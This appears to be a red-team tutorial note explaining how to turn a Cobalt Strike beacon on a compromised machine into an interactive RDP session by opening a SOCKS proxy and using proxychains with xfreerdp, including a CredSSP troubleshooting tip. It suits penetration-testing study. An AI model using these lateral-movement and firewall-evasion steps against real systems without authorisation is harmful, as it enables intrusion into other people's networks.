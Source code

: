 ```yaml
---
description: 'Lateral Movement, Tunnelling, Firewall Evasion'
---
```


# From Beacon to Interactive RDP Session

This is a quick note showing how to get an interactive Remote Desktop Session \(RDP\) session from a Cobalt Strike beacon by leveraging socks proxy and proxychains.

## Socks Proxy

Say we have compromised a box and we have a beacon running on it:

![](../../.gitbook/assets/image%20%2814%29.png)

The same compromised machine is listening on 3389, meaning it accepts incoming RDP connections:

![](../../.gitbook/assets/image%20%28136%29.png)

Most often you will not be able to reach the machine via RDP from the outside due to corporate and host firewalls, however not all is lost - the machine is still reachable over RDP via sock proxy capability that the beacon provides.

Using the beacon we control, let's create a socks proxy on port 7777. This will expose a TCP port 7777 on the teamserver:

```text
socks 7777
```

![](../../.gitbook/assets/image%20%2824%29.png)

## Proxychains

With the socks proxy create, we can now jump onto any linux box \(Kali in my case\) and configure proxychains to point it to the teamserver and the port we've just exposed:

![](../../.gitbook/assets/image%20%2830%29.png)

We can now connect to the compromised box via RDP using xfreerdp:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
proxychains xfreerdp /v:127.0.0.1:3389 /u:spotless
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below illustrates a successful RDP connection was established although the user on the other end \(me\) killed the session:

![](../../.gitbook/assets/image%20%28200%29.png)

{% hint style="warning" %}
**If you are getting...**  
`Error: CredSSP initialize failed, do you have correct kerberos ticket initialized?  
Failed to connect, CredSSP required by server`

Suggestion is to use `xfreerdp` instead of `rdesktop` and the issue will go away.
{% endhint %}

![CredSSP error using rdesktop](../../.gitbook/assets/image%20%2877%29.png)

